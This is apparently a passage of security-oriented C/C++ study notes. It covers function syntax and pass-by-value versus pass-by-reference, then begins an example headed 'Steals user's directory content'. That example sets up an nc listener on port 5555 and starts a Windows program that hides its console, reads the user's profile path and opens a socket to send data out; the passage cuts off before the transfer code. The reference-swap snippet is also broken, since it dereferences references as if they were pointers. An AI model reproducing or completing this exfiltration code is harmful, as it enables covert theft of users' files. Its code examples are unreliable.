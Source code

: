 ```cpp
type function_name(param1, param2, ...){
  statements;
}

// function with "formal" parameters
int sum(int x, int y) {
  int z;
  z = x + y;
  return(z);
}
```

In almost any programming language, there are two ways in which we can pass arguments to a function:

* By value
  * Copies the value of an argument into a parameter. Changes made to the parameter do not affect the argument
  * Code in the function does not alter the arguments used by the caller
  * It's a copy of the value of the argument passed into the function
  * What occurs inside the function has NO EFFECT on the variable provided by the caller
* By reference
  * The address of an argument \(not the value\) is copied into the parameter
  * Inside the function, the address is used to access the actual argument used in the call
  * Changes made to the parameter will affect the argument

```cpp
void swap(int& x, int& y) {
  int temp;
  temp=*x;
  *x=*y;
  *y=temp;
}
```

### Example: Steals user's directory content

Listen for an incoming connection with `nc -lvp 5555`:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string>

char* userDirectory()
{
    char* pPath;
    pPath = getenv ("USERPROFILE");
    if (pPath!=NULL)
    {
        return pPath;
    } else {
        perror("");
    }
}

int main()
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    WSADATA WSAData;
    SOCKET server;
```